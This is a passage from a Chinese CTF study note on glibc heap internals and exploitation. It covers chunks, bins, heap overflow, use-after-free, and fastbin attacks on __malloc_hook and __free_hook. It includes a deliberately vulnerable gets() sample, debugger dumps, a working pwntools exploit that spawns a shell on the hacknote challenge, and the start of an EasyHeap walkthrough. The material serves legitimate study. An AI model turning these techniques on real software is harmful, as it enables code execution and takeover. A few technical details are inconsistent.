# 堆

堆其实就是程序虚拟地址空间的一块连续的线性区域，它由**低地址向高地址方向增长**（栈由高地址向低地址增长）。我们一般称管理堆的那部分程序为堆管理器。 堆是分配给程序的内存空间 与栈不同，堆内存可以动态分配。这意味着程序可以在需要的时候从堆段中**请求**和**释放**内存。此外，此**内存是全局**的，即可以从程序中的任何地方访问和修改它，并且不会局限于分配它的函数。这是通过使用指针来引用动态分配的内存来完成的，与使用局部变量(在栈上)相比，这反过来会导致性能的小幅下降。

在程序执行的过程中，由 malloc 申请的内存空间被称作 chunk，而当程序申请的 chunk 被 free 时，会被加入到相应的空闲管理列表（bin）中。


## chunk 结构



### pre_size

前一个chunk块的大小，如果chunk_size的P位为1则pre_size无效，上个chunk可以使用pre_size的空间。（前一个chunk块的大小，指的是低地址的chunk）

### chunk_size

当前chunk的大小，后3位分别为，A(是否为non-main_arena,即0为主线程)、M(该chunk是否由mmap分配)，P(前一个chunk是否被分配，故经常会看到chunk_size比chunk大1字节，比如你常见的 0x31，不是“这个 chunk 真比 0x30 大了 1 字节”，而是：实际 chunk size = 0x30，P = 1)。

### mem

用户申请的空间，即malloc 申请得到的内存指针，其实指向 mem 的起始处。chunk 处于分配状态时，从 fd 字段开始是用户的数据。chunk 空闲时，会被添加到对应的空闲管理链表中，其字段的含义如下

- fd 指向下一个（非物理相邻）空闲的 chunk
- bk 指向上一个（非物理相邻）空闲的 chunk
- 通过 fd 和 bk 可以将空闲的 chunk 块加入到空闲的 chunk 块链表进行统一管理

但是注意，在现代的glibc中

- small bin / large bin / unsorted bin 里的 free chunk，确实会用 fd/bk 双链表
- fastbin 是单链表
- tcache 也是把结构叠加在用户区上，但用的是 next 和 key，不是 fd/bk

### 大小

Chunk的大小必须是 2 * SIZE_SZ 的整数倍。如果申请的内存大小不是2 * SIZE_SZ 的整数倍，会被转换满足大小的最小的 2 * SIZE_SZ 的倍数。SIZE_SZ 是 4；64 位系统中，SIZE_SZ 是 8

故在32位中最小的chunk(min_size)的大小为：8+4+4=16字节,其中8字节为用户使用的空间，4字节为pre_size,4字节为chunk_size（所有头的空间都为8，不会随着chunk的大小增加而增加，64位也相同）

64位为：16+8+8=32字,16字节为用户使用的空间，8字节为pre_size,8字节为chunk_size（最小的chunk意味着只要用户申请的size小于min_size，得到的空间都为min_size

### 合并策略

1. free 走到“正常 free 路径”时，当前块会尝试和相邻空闲块立即合并。
   具体分三种：

- 前块空闲：!prev_inuse(p)，先 backward consolidate，读 prev_size 回跳到前块并 unlink。
- 后块空闲且后块不是 top：forward consolidate，把后块 unlink 后并进来。
- 后块正好是 top：直接并入 top chunk。
  当前 glibc 源码里这三条路径都写得很直白；glibc 2.28 的源码也是同样的逻辑。

2. 但不是所有 free 都会立刻合并。
   如果 chunk 先被放进 tcache，代码会 tcache_put(...); return;，这次 free 就到此为止，不会进入后面的合并逻辑。
3. 如果 chunk 走的是 fastbin 路径，也不会立刻和邻居合并。
   当前源码明确把它放进 fastbin，并设置 have_fastchunks；fastbin 的 chunk 之后要靠malloc_consolidate 才会被真正拆下来，与前后 chunk 做合并
4. malloc_consolidate 会触发一轮“批量 fastbin 合并”。
   它会把 fastbins 里的块一个个取出来，然后像正常 free 一样：能和前块合并就 backward merge能和后块合并就 forward merge如果后面是 top，就并进 top，最后通常挂到 unsorted bin。glibc 2.28 和当前版本这一点是一致的。

那 malloc_consolidate 什么时候会被触发？常见两类：

- **大块分配请求 **走 _int_malloc 时，如果 arena 里 have_fastchunks 为真，会先 malloc_consolidate(av)。
- **free 一个足够大的块 时**，如果 size 达到 FASTBIN_CONSOLIDATION_THRESHOLD，glibc 会在 _int_free_maybe_consolidate 里触发 fastbin consolidation，并可能继续 trim top。

## 空闲管理列表（bin）

用户释放掉的 chunk 不会马上归还给系统，ptmalloc会统一管理 heap 和 mmap 映射区域中的空闲的chunk。在具体的实现中，ptmalloc 采用分箱式方法对空闲的chunk 进行管理。首先，它会根据空闲的 chunk 的大小以及使用状态将 chunk 初步分为4类：fast bins，small bins，large bins，unsorted bin。每类中仍然有更细的划分，相似大小的 chunk 会用双向链表链接起来。也就是说，在每类 bin 的内部仍然会有多个互不相关的链表来保存不同大小的chunk。在这里我们主要学习的两种bin：fastbins和unsorted bin

### fastbins

glibc以单链表结构对其进行管理，且每个bin采取的是LIFO（后进先出，跟栈类似）的策略，即最近释放的chunk会被优先分配，同时fastbin中的chunk的P位设为1，不会进行合并操作。

fastbin大小（注：以下的大小都为mem的大小，实际chunk的空间还要加上chunk_head（64位为16字节，32位为8字节）

fastbins中最多有10个bin


fastbin,bin,chunk对应关系如下

```less
fastbins[7] （数组，每个元素一条单链表）
 ┌─────────────┬─────────────┬─────────────┬─────────────┬─────────────┬─────────────┬─────────────┐
 │ bin[1]:16B  │ bin[2]:24B  │ bin[3]:32B  │ bin[4]:40B  │ bin[5]:48B  │ bin[6]:56B  │ bin[7]:64B  │
 └─────┬───────┴─────┬───────┴─────┬───────┴─────┬───────┴─────┬───────┴─────┬───────┴─────┬───────┘
       │             │             │             │             │             │             │
       ▼             ▼             ▼             ▼             ▼             ▼             ▼
   ┌─────────┐   ┌─────────┐   ┌─────────┐   ┌─────────┐   ┌─────────┐   ┌─────────┐   ┌─────────┐
   │chunk_hd │→  │chunk_hd │→  │chunk_hd │→  │chunk_hd │→  │chunk_hd │→  │chunk_hd │→  │chunk_hd │
   │ usermem │   │ usermem │   │ usermem │   │ usermem │   │ usermem │   │ usermem │   │ usermem │
   └─────────┘   └─────────┘   └─────────┘   └─────────┘   └─────────┘   └─────────┘   └─────────┘

说明：
- fastbins 是一个数组，数组下标对应 bin 编号
- 每个 bin 用单链表挂一串 chunk
- 每个 chunk 都有独立的 chunk_head

fastbinsY[3] (head)
   |
   v
+-------------------------------+      +-------------------------------+      +-------------------------------+
| prev_size | size(=0x51*) | fd | ---> | prev_size | size(=0x51*) | fd | ---> | prev_size | size(=0x51*) | fd | ---> NULL
+-------------------------------+      +-------------------------------+      +-------------------------------+
                                        (* 0x51 = 0x50 | PREV_INUSE 位)


```

### unsorted bin

如果free的chunk块不在fastbins范围内，就会被乱序存放在unsorted bins内，即是未排序的bin，**而Unsortedbins的作用是视作空闲 chunk 回归其所属（larg/small) bin 之前的缓冲区**。当用户申请(malloc)一个大于fastbin的chunk时，首先会遍历unsorted bin中的chunk，找到合适的chunk，这时再将其他不满足的chunk保存到small bin和large bin中也是顺便的事情，所以从unsorted bin命名也可看成，这是一个未排序的bin，需要排序就需要遍历，遍历后的chunk就直接分类到(larg/small)bin中。

Unsortedbin在使用过程中采用的遍历顺序是FIFO，同时bin中的chunk是以双向链表连接的，fd指向先入bin的chunk，bk指向后入bin的chunk

## 堆溢出和UAF

### 堆溢出

堆溢出（Heap Overflow）是指在程序执行过程中，向堆（Heap）区域写入超出其分配内存边界的数据，从而覆盖了相邻的内存空间。这可能导致程序崩溃、执行意外行为或者被攻击者利用。

如下程序

```c
#include <stdio.h>

int main(void) 
{
  char *chunk;
  chunk=malloc(24);
  puts("Get input:");
  gets(chunk);
  return 0;
}
```

可以看到申请了24大小的chunk

```bash
0x602000: 0x0000000000000000  0x0000000000000021 <===chunk
0x602010: 0x0000000000000000  0x0000000000000000
0x602020: 0x0000000000000000  0x0000000000020fe1 <===top chunk
0x602030: 0x0000000000000000  0x0000000000000000 
0x602040: 0x0000000000000000  0x0000000000000000
```

这里之所以是0x21是因为后面的top chunk的pre_size八位可以用作存储，一般可以简单理解为分配的chunk块大小要比需要的空间大小大0x10，或者补全到0xN0

在 64 位 glibc 中，malloc(24) 的 request size 为 0x18。
根据 request2size 宏，glibc 会将其对齐并转换为 chunk size = 0x20。
由于 size 字段低位包含标志位，因此内存中看到的值通常是 0x21，表示：

实际 chunk 大小为 0x20

PREV_INUSE(P) 位置 1

需要注意区分：

0x20：整个 chunk 的大小

0x21：size 字段原值

24：用户请求大小

24：在该普通非 mmap chunk 场景下的 usable size

因此，不能简单认为“用户可用空间永远等于 chunk size - 0x10”。
对于普通非 mmap chunk，在 64 位 glibc 下，这个例子里的用户实际可用空间是 24 字节，而不是 16 字节。

那我们究竟可以溢出多少字节才能达到目的呢

首先

pre size与size 这个长度一般是字长的 2 倍，比如 32 位系统是 8 个字节，64 位系统是 16 个字节。

因此

chunk_head.size = 用户区域大小 + 2 * 字长

对于写入是从data块开始的

下面是向chunk中写入0x100字节的A所呈现的heap结构

```bash
0x602000:   0x0000000000000000  0x0000000000000021 <===chunk
0x602010:   0x4141414141414141  0x4141414141414141
0x602020:   0x4141414141414141  0x4141414141414141 <===top chunk(已被溢出)
0x602030:   0x4141414141414141  0x4141414141414141
0x602040:   0x4141414141414141  0x4141414141414141
```

但有以下几点需要注意

一般情况下我们是通过malloc分配堆内存的，但在某些情况下是通过relloc实现的

```c
#include <stdio.h>

int main(void) 
{
  char *chunk,*chunk1;
  chunk=malloc(16);
  chunk1=realloc(chunk,32);
  return 0;
}
```

当新分配的chunk小于pre chunk时

如果新size与原来的size之间不足以插入另一个最小chunk则保持不变

如果差距过大则分割这个chunk 并对另一部分chunk进行free

当新分配的chunk大于pre chunk时

如果 chunk 与 top chunk 相邻，直接扩展这个 chunk 到新 size 大小

如果 chunk 与 top chunk 不相邻，相当于free这一个小chunk并且malloc一个大的chunk

存在于heap的头部 代表剩余空间

在他的下方并没有任何东西。


top chunk示意如下

```text
                heap grows upward  →
  
低地址                                                     高地址
│                                                           │
▼                                                           ▼

0x1000  ┌──────────────────────────────┐
        │ chunk #1                     │
        │ size = 0x110                 │
0x1110  ├──────────────────────────────┤
        │ chunk #2                     │
        │ size = 0x90                  │
0x11a0  ├──────────────────────────────┤
        │ chunk #3                     │
        │ size = 0x220                 │
0x13c0  ├──────────────────────────────┤
        │ top chunk header             │
        │ size = 0xc40                 │
        ├──────────────────────────────┤
        │                              │
        │      unused free area        │
        │                              │
        │                              │
0x2000  └──────────────────────────────┘
        current heap end (brk)
```

当请求一个chunk后，top chunk会被分割为两个chunk，一个用作请求的新chunk，一个是新的top chunk

例如下面两个图

分配前

```text
低地址
0x13c0  ┌─────────────────────────────────────┐
        │ prev_size                           │
0x13c8  ├─────────────────────────────────────┤
        │ size = 0xc41                        │
0x13d0  ├─────────────────────────────────────┤
        │                                     │
        │       top chunk free space          │
        │                                     │
        │                                     │
0x2000  └─────────────────────────────────────┘
高地址
```

此时执行语句malloc(0x100)

分配后

```text
低地址
0x13c0  ┌─────────────────────────────────────┐
        │ allocated chunk prev_size           │
0x13c8  ├─────────────────────────────────────┤
        │ allocated chunk size = 0x111        │
0x13d0  ├─────────────────────────────────────┤
        │ user data (malloc 返回给用户的地方)  │
        │ ...                                 │
0x14d0  ├─────────────────────────────────────┤
        │ new top prev_size                   │
0x14d8  ├─────────────────────────────────────┤
        │ new top size = 0xb31                │
0x14e0  ├─────────────────────────────────────┤
        │                                     │
        │       remaining free space          │
        │                                     │
0x2000  └─────────────────────────────────────┘
高地址
```

### UAF

而UAF是指释放后引用（Use-After-Free）漏洞，它是一种常见的内存安全问题。当程序释放了一个堆上的内存块，但后续仍然继续使用该已释放的内存块，就会产生UAF漏洞。攻击者可以利用UAF漏洞来执行恶意代码，读取敏感数据，控制程序的执行流程等。

在计算机编程领域中，迷途指针，或称悬空指针、野指针，指的是不指向任何合法的对象的指针

当所指向的对象被释放或者收回，但是对该指针没有作任何的修改，以至于该指针仍旧指向已经回收的内存地址，此情况下该指针便称**迷途指针**。若操作系统将这部分已经释放的内存重新分配给另外一个进程，而原来的程序重新引用现在的迷途指针，则将产生无法预料的后果。因为此时迷途指针所指向的内存现在包含的已经完全是不同的数据。通常来说，若原来的程序继续往迷途指针所指向的内存地址写入数据，这些和原来程序不相关的数据将被损坏，进而导致不可预料的程序错误。这种类型的程序错误，不容易找到问题的原因，通常会导致存储器区块错误（Linux系统中）和一般保护错误（Windows系统中）。如果操作系统的内存分配器将已经被覆盖的数据区域再分配，就可能会影响系统的稳定性。

UAF漏洞，存在三种情况

- 内存块被释放后，其对应的指针被设置为 NULL ， 然后再次使用，自然程序会崩溃。
- 内存块被释放后，其对应的指针没有被设置为 NULL ，然后在它下一次被使用之前，没有代码对这块内存块进行修改，那么程序很有可能可以正常运转。
- 内存块被释放后，其对应的指针没有被设置为 NULL，但是在它下一次使用之前，有代码对这块内存进行了修改，那么当程序再次使用这块内存时，就很有可能会出现奇怪的问题。

通常pwn题利用的是后两种情况

UAF（Use-After-Free）漏洞的本质是：某个堆对象已经被释放，但程序中仍然保留着指向该对象的引用，并继续通过这些引用访问该对象。常见情况是，指针 P 指向一块堆内存，在执行 free(P) 后，变量 P 本身没有被修改，因此仍然保存原地址值；但此时该对象的生命周期已经结束，P 已成为悬空指针。若程序之后继续通过 P 进行读写，就构成了 UAF。

在很多情况下，如果随后又申请一个大小合适的堆块，内存分配器 可能会复用刚刚释放的那块 chunk，并将其返回给新的指针。这样一来，旧的悬空指针和新的合法指针可能数值上指向同一地址。此时，继续通过旧指针访问该内存，实际上访问的已经是一个新的对象，可能导致数据破坏、信息泄漏、double free，甚至控制流劫持。

其中堆分配回收机制：应用程序调用free()释放内存时，如果内存块小于256kb，dlmalloc并不马上将内存块释放回内存，而是将内存块标记为空闲状态。这么做的原因有两个：一是内存块不一定能马上释放回内核（比如内存块不是位于堆顶端），二是供应用程序下次申请内存使用（这是主要原因）。当dlmalloc中空闲内存量达到一定值时dlmalloc才将空闲内存释放回内核。如果应用程序申请的内存大于256kb，dlmalloc调用mmap()向内核申请一块内存，返回返还给应用程序使用。如果应用程序释放的内存大于256kb，dlmalloc马上调用munmap()释放内存。dlmalloc不会缓存大于256kb的内存块，因为这样的内存块太大了，最好不要长期占用这么大的内存资源。

### 堆溢出的UAF

当堆溢出和UAF漏洞同时存在时，攻击者可以通过利用堆溢出漏洞来修改或篡改已释放的内存块，进而改变UAF漏洞的利用条件或影响其后续的使用。这种组合攻击称为堆溢出的UAF（Heap Overflow Use-After-Free）。攻击者可以通过堆溢出来破坏程序的内存结构，并结合UAF漏洞来实现更复杂的攻击，例如执行任意代码、提升权限或者绕过安全保护机制等。

### fastbin attach

动态内存堆通常由两个主要的部分组成：一个是堆的头部（Heap Header），用于记录堆的状态和元数据信息，另一个是堆的主体（Heap Body），用于存储分配出去的内存块和空闲内存块。

堆的主体通常是由一块或多块连续的虚拟内存区域组成，每个区域通常是由多个内存块（Block）组成，每个内存块包含一个头部和一个实际的数据部分。头部通常用于记录内存块的状态（已分配或空闲）、大小、指向下一个或上一个内存块的指针等信息

代码如下

```
struct BlockHeader {
    size_t size;            // 内存块的大小，包括头部信息和数据部分
    struct BlockHeader* next;   // 指向下一个内存块的指针
    int is_free;            // 标记内存块是否空闲
};

// 堆的主体信息
struct Heap {
    struct BlockHeader* head;   // 指向堆中第一个内存块的指针
    size_t size;            // 堆的大小，包括已分配和空闲的内存块
};
```

内存布局（64-bit 常见）:

+----------------------------+
| prev_size (only if !P)     |  ← chunk 头的一部分
+----------------------------+
| size | flags (P/M bits...) |  ← chunk 头的一部分
+----------------------------+
|            payload         |  ← 你拿到的“block”（malloc 返回指针指向这里）
|            (user mem)      |
+----------------------------+
|   (下一个 chunk 紧随其后)   |
+----------------------------+

chunk 是分配器“看得见、管理得了”的单位；

block 是用户视角的“我能用的这坨内存”。

malloc(n) 时：分配器会把 n 向上按对齐 + 加上头部，得到chunk size。返回的是 payload 的地址，也就是“block”。

#### 修改指针

当我们释放一个符合大小的内存堆A，A会被分到fastbin中。再释放一个符合大小的内存堆B，B也会被分到fastbin，此时B中存放的next指针就是A。如果再释放一次A，那么A的next就会指向B，两边就相互指了，达成修改next指针的目的。

我们也可以直接覆盖数据修改内存堆中存放的next指针。

修改指针就可以在下次申请内存的时候申请到我们控制的内存，因为fastbin是这样用的，我们刚才释放了B，随后我们再申请相同大小的，我们就会得到B，然后再申请一次就会得到B指向的A。

所以，如果我们申请得到B，并且B中存放的next是C，那么再次申请就会得到C，随后可以修改C中的内容。

那么我们要修改哪里的内容呢

#### 劫持原理

malloc_hook位于main_arena上方-0x10的位置，可以通过fake chunk来overwrite该值实现getshell

free_hook 位于libc上_free_hook上，可以通过fake chunk来overwrite该值达到劫持程序流的目的

malloc_hook的调用如下

```
  2907   void *(*hook) (size_t, const void *)
► 2908     = atomic_forced_read (__malloc_hook);
  2909   if (__builtin_expect (hook != NULL, 0))
  2910     return (*hook)(bytes, RETURN_ADDRESS (0));
```

利用思路：在执行malloc时，会检测__malloc_hook的值，如果malloc_hook的值存在，将调用malloc_hook指向的地址call rax，如果我们将该值overite 为one_gadget，当程序执行malloc的时候，便可以getshell

实际利用过程

- molloc_hook的储存位置

```bash
gdb-peda$ p &__malloc_hook
$2 = (void *(**)(size_t, const void *)) 0x7ffff7dd5b10 <__malloc_hook>
gdb-peda$ p &main_arena
$3 = (struct malloc_state *) 0x7ffff7dd5b20 <main_arena>
```

- 在malloc_hook 上方查找满足条件的fastbin 的size

```bash
gdb-peda$ x/8gx  0x7ffff7dd5b00-0x20
0x7ffff7dd5ae0 <_IO_wide_data_0+288>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd5af0 <_IO_wide_data_0+304>:	0x00007ffff7dd4260	0x0000000000000000
0x7ffff7dd5b00 <__memalign_hook>:	0x00007ffff7ac0305	0x00007ffff7ac02c6
0x7ffff7dd5b10 <__malloc_hook>:	0x0000000000000000	0x0000000000000000
```

- 查找符合条件的fake_fastbin,pwndbg内置了查找符合条件的fake_fast_bin的命令

```bash
gdb-peda$ find_fake_fast 0x7ffff7dd5b10 0x7f
FAKE CHUNKS
Fake chunk | Allocated chunk | PREV_INUSE | IS_MMAPED | NON_MAIN_ARENA
Addr: 0x7ffff7dd5aed
prev_size: 0xfff7ac02c600007f
size: 0x7f
fd: 0x00
bk: 0x7f
fd_nextsize: 0xfff7ac0305000000
bk_nextsize: 0xfff7dd4260000000
```

伪造的fastbin的addr为0x7ffff7dd5aed，当程序可以在该位置申请chunk的时候，便可以达到程序流劫持getshell

就是将malloc_hook中存储的返回地址覆盖为想让他去的地址，从而执行想让他执行的命令

free_hook的调用

```
  2939   void (*hook) (void *, const void *)
► 2940     = atomic_forced_read (__free_hook);
  2941   if (__builtin_expect (hook != NULL, 0))
  2942     {
  2943       (*hook)(mem, RETURN_ADDRESS (0));
  2944       return;
  2945     }
```

简单来说，free_hook和malloc_hook差不多，其也是两个参数，第一个参数是应该指针，指向要free的内容块，第二个参数和malloc_hook一样，是返回地址

利用思路

- 通过改写main_arena中的top_chunk的地址，将top_chunk的值改写到free_hook上方指定的位置，通过不断向top_chunk申请chunk，最终可以分配到包含free_hook的区块，从而可以改写__free_hook的值。
- 通过改写global_max_fast的值，可以在free_hook的上方找到一个足够大包含free_hook的块，当改写了global_max_fast后，向heap申请的块都将按照fastbin来处理
- 通过unsorted bin attack 在free_hook上方伪造 0x7f大小的chunk,再通过fastbin attack 来修改free_hoook的值

实际利用过程

- 修改top_chunk
  free_hook的存储的位置,在 free_hook上方 -0xb58 我们可以找到满足top_chunk要求的大小

```bash
gdb-peda$ p &__free_hook
$5 = (void (**)(void *, const void *)) 0x7ffff7dd77a8 <__free_hook>
gdb-peda$ x/8gx 0x7ffff7dd77a8 -0xb58
0x7ffff7dd6c50 <initial+16>:	0x0000000000000004	0x697b5349788728d7
0x7ffff7dd6c60 <initial+32>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd6c70 <initial+48>:	0x0000000000000000	0x0000000000000000
```

伪造的fastbin的addr为0x7ffff7dd6c50，当程序可以在该位置申请chunk的时候，通过重复向top_chunk申请，最终覆写__free_hook的值为system的值通过free /bin/sh\x00的chunk,达到程序流劫持getshell。

- 修改global_max_fast,但是这依赖于可以malloc的chunk的大小是可控的

通过fastbin attack 使得可以malloc 指定包含free_hook大小的chunk，比如利用0x7ffff7dd6c58处的值，但是这里要合理去构造偏移

```bash
gdb-peda$ x/200gx 0x7ffff7dd77a8-0xC00
0x7ffff7dd6ba8 <lock+8>:	0x0000000000000000	0x0000000000000000
....
0x7ffff7dd6c48 <initial+8>:	0x0000000000000001	0x0000000000000004
0x7ffff7dd6c58 <initial+24>:	0xbf378114d045c300	0x0000000000000000
```

通过unsorted_bin attack 来写入free_hook上方0x7f的值，可以在free_hook上方伪造出0x7f大小的chunk,再可以通过fastbin attack 来malloc得到包含free_hook的chunk，写入system的地址，通过free(/bin/sh)来实现利用。

#### UAF例题

##### BuuCTF-hitcontraining_uaf



很明显的一个菜单题，也是堆类题的模板，大多数的呈现形式也是这样的。

在del_note函数中，可以发现其中在对notelist内容进行判断的时候，对note对应的结构体的两项进行了free，而没有置为null。

```
free(*((void **)notelist[v1] + 1));
free(notelist[v1]);
```

在gdb中查看&notelist

```
pwndbg>  p &notelist  
$1 = (<data variable, no debug info> *) 0x804a048 <notelist>
```



查看堆的地址，运行程序第一次malloc后输入vmmap

```bash
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
     Start        End Perm     Size  Offset File (set vmmap-prefer-relpaths on)
 0x8048000  0x8049000 r-xp     1000       0 hacknote
 0x8049000  0x804a000 r--p     1000       0 hacknote
 0x804a000  0x804b000 rw-p     1000    1000 hacknote
 0x804b000  0x806d000 rw-p    22000       0 [heap]
0xf7d67000 0xf7d8a000 r--p    23000       0 /usr/lib/i386-linux-gnu/libc.so.6
0xf7d8a000 0xf7f13000 r-xp   189000   23000 /usr/lib/i386-linux-gnu/libc.so.6
0xf7f13000 0xf7f98000 r--p    85000  1ac000 /usr/lib/i386-linux-gnu/libc.so.6
0xf7f98000 0xf7f9a000 r--p     2000  231000 /usr/lib/i386-linux-gnu/libc.so.6
0xf7f9a000 0xf7f9b000 rw-p     1000  233000 /usr/lib/i386-linux-gnu/libc.so.6
0xf7f9b000 0xf7fa5000 rw-p     a000       0 [anon_f7f9b]
0xf7fbf000 0xf7fc1000 rw-p     2000       0 [anon_f7fbf]
0xf7fc1000 0xf7fc5000 r--p     4000       0 [vvar]
0xf7fc5000 0xf7fc7000 r-xp     2000       0 [vdso]
0xf7fc7000 0xf7fc8000 r--p     1000       0 /usr/lib/i386-linux-gnu/ld-linux.so.2
0xf7fc8000 0xf7fec000 r-xp    24000    1000 /usr/lib/i386-linux-gnu/ld-linux.so.2
0xf7fec000 0xf7ffb000 r--p     f000   25000 /usr/lib/i386-linux-gnu/ld-linux.so.2
0xf7ffb000 0xf7ffd000 r--p     2000   33000 /usr/lib/i386-linux-gnu/ld-linux.so.2
0xf7ffd000 0xf7ffe000 rw-p     1000   35000 /usr/lib/i386-linux-gnu/ld-linux.so.2
0xfffdb000 0xffffe000 rw-p    23000       0 [stack]
```

可以看到heap的起始为0x804b000

查看heap起始周围的内容

ghidra

```bash
pwndbg> x/32wx 0x804b000
0x804b000:      0x00000000      0x00000000      0x00000000      0x00000191
0x804b010:      0x00000000      0x00000000      0x00000000      0x00000000
0x804b020:      0x00000000      0x00000000      0x00000000      0x00000000
0x804b030:      0x00000000      0x00000000      0x00000000      0x00000000
0x804b040:      0x00000000      0x00000000      0x00000000      0x00000000
0x804b050:      0x00000000      0x00000000      0x00000000      0x00000000
0x804b060:      0x00000000      0x00000000      0x00000000      0x00000000
0x804b070:      0x00000000      0x00000000      0x00000000      0x00000000


pwndbg> heap
Allocated chunk | PREV_INUSE
Addr: 0x804b008
Size: 0x190 (with flag bits: 0x191)

Allocated chunk | PREV_INUSE
Addr: 0x804b198
Size: 0x10 (with flag bits: 0x11)

Allocated chunk | PREV_INUSE
Addr: 0x804b1a8
Size: 0x20 (with flag bits: 0x21)

Allocated chunk | PREV_INUSE
Addr: 0x804b1c8
Size: 0x10 (with flag bits: 0x11)

Allocated chunk | PREV_INUSE
Addr: 0x804b1d8
Size: 0x20 (with flag bits: 0x21)

Top chunk | PREV_INUSE
Addr: 0x804b1f8
Size: 0x21e08 (with flag bits: 0x21e09)

```

这里看到有一个0x190的大块，肯定不是我们分配的，所以直接去看第二个块

```bash
pwndbg> x/32wx 0x804b198
0x804b198:      0x00000000      0x00000011      0x0000804b      0x0804b1b0
0x804b1a8:      0x00000000      0x00000021      0x0000804b      0x000a6673
0x804b1b8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804b1c8:      0x00000000      0x00000011      0x080431d3      0x0804b1e0
0x804b1d8:      0x00000000      0x00000021      0x080431e3      0x00000a66
0x804b1e8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804b1f8:      0x00000000      0x00021e09      0x00000000      0x00000000
0x804b208:      0x00000000      0x00000000      0x00000000      0x00000000
```

由于add_note中的

```c
*((_DWORD *)&notelist + i) = malloc(8u);           // 分配 node(8)
**((_DWORD **)&notelist + i) = print_note_content; // node[0] = 函数指针
...
*(_DWORD *)(v1 + 4) = malloc(size);  
```

两句话，我们可以判断出note布局如下

```
node:
  +0x00  函数指针（print_note_content）
  +0x04  内容指针（指向后面那块内容区的起始）
```

也就是说，notelist是一个指针数组，其里面存储的每个元素都是一个指向note的指针，note又是个结构体，其有两个元素组成，一个是前四位的print_note_content函数的地址，一个是后四位的指向储存用户需要的内容的chunk的指针。

而add_note会请求两次chunk块，一个是note，可写入的大小为八，就是前面说的，一个是用来储存用户内容的chunk

依次free note[0]，note[1]，查看fastbins：

```bash
pwndbg> fastbins
fastbins
empty
```

发现bin里还是没东西，查阅后得到
看不到 fastbins 是因为这些小块被 “tcache” 吃掉了，不知道是我本地环境问题，还是pwn题就是这样


那现在有两个办法

1. 把 tcache 填满：默认每个 tcache bin 容量是 7（glibc 版本略有差异），对同一 size 连续 free ≥8 个块，第 8 个开始就会进 fastbins。
2. 关闭tache ：在 gdb 里设置环境变量然后 run：

```bash
pwndbg> set environment GLIBC_TUNABLES glibc.malloc.tcache_count=0
pwndbg> run
```

这里我用的第二种，重新运行程序，之后再次查看fastbin

```bash
pwndbg> fastbins
fastbins
0x10: 0x804b1c8 —▸ 0x804b198 ◂— 0
0x20: 0x804b1d8 —▸ 0x804b1a8 ◂— 0
```

0x804b1c8是note[1]的chunk，0x804b198是note[0]的chunk，所以之后malloc(8)的时候，第一次会得到0x804b1c8，第二次会得到0x804b198

此时回头查看堆的结构，0x804b198后是chunk的返回地址，即print_note_addr

那我们只需要再使用add_note，malloc申请两个大小为8的堆块，第一个堆块会被放到0x804b1c8的位置，第二个堆块会被放到0x804b198的位置，存原来print_note_addr的位置就可以被我们被我们写入的note覆盖，之后再执行print_note(0)，就可以拿到shell



exp如下

```python
from pwn import *
 
context.log_level = 'debug'
 
sh = process("./hacknote")
# sh = gdb.debug("./hacknote", "b *add_note\nc")
elf = ELF("./hacknote")
 
 
def add_note(size, note=b"123"):
    sh.sendlineafter(b"Your choice :", b"1")
    sh.sendlineafter(b"Note size :", str(size).encode())
    sh.sendlineafter(b"Content :", note)
 
def del_note(index):
    sh.sendlineafter(b"Your choice :", b"2")
    sh.sendlineafter(b"Index :", str(index).encode())
 
def print_note(index):
    sh.sendlineafter(b"Your choice :", b"3")
    sh.sendlineafter(b"Index :", str(index).encode())
 
add_note(24)
add_note(24)
 
del_note(0)
del_note(1)
 
add_note(8, p32(elf.sym["magic"]))
print_note(0)
 
sh.interactive()
pause()
```

#### fastbin attack

##### [ZJCTF 2019]EasyHeap

运行程序，经典的菜单页面



ida看一下，main函数中存在如下语句


所以我们要想办法将magic修改的大于0x1305就可以得到shell

浏览几个函数，delete_heap中将指针制空了，所以不存在UAF漏洞

在edit_heap中存在为验证输入长度的问题，可以造成堆溢出，代码如下



运行程序，创建两个大小为24的chunk后查看堆结构

```bash
pwndbg> heap
Allocated chunk | PREV_INUSE
Addr: 0x603000
Size: 0x290 (with flag bits: 0x291)

Allocated chunk | PREV_INUSE
Addr: 0x603290
Size: 0x20 (with flag bits: 0x21)

Allocated chunk | PREV_INUSE
Addr: 0x6032b0
Size: 0x20 (with flag bits: 0x21)

Allocated chunk | PREV_INUSE
Addr: 0x6032d0
Size: 0x20 (with flag bits: 0x21)

Top chunk | PREV_INUSE
Addr: 0x6032f0
Size: 0x20d10 (with flag bits: 0x20d11)

pwndbg> vmmp
Undefined command: "vmmp".  Try "help".
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
             Start                End Perm     Size  Offset File (set vmmap-prefer-relpaths on)
          0x400000           0x402000 r-xp     2000       0 easyheap
          0x601000           0x602000 r--p     1000    1000 easyheap
          0x602000           0x603000 rw-p     1000    2000 easyheap
          0x603000           0x624000 rw-p    21000       0 [heap]


pwndbg> x/32wx  0x603290
0x603290:       0x00000000      0x00000000      0x00000021      0x00000000
0x6032a0:       0x61616161      0x0a616161      0x00000000      0x00000000
0x6032b0:       0x00000000      0x00000000      0x00000021      0x00000000
0x6032c0:       0x61616161      0x0a616161      0x00000000      0x00000000
0x6032d0:       0x00000000      0x00000000      0x00000021      0x00000000
0x6032e0:       0x61616161      0x0a616161      0x00000000      0x00000000
0x6032f0:       0x00000000      0x00000000      0x00020d11      0x00000000
0x603300:       0x00000000      0x00000000      0x00000000      0x00000000

pwndbg>  p &magic  
$2 = (<data variable, no debug info> *) 0x6020c0 <magic>
```

但是这里magic存的位置和堆完全不占边，重新寻思要怎么弄

覆盖调用函数，把free的got表掉包成system的plt表，不就可以执行system（堆指针）了吗？那么此时如果堆指针存着‘/bin/sh’，我们就可以执行system（‘/bin/sh’）提权了。（注意字符串实际上就是一个指针，并且结尾是‘\x00’）

先创建三个堆，大小为0x68分别为heap0，heap1，heap2

```python
add(0x68,b'6')#0
add(0x68,b'6')#1 
add(0x68,b'6')#2
```

heap2是fastbin attack的排头兵，他用来被送到fastbin attack，然后修改他的fd指针为程序存放heap指针的数组（下面简称为数组）。

这样在申请内存时根据fastbin的先进先出，先申请到heap2，然后就是申请到数组作为伪装堆。



查看heap数组周围的内容

```bash
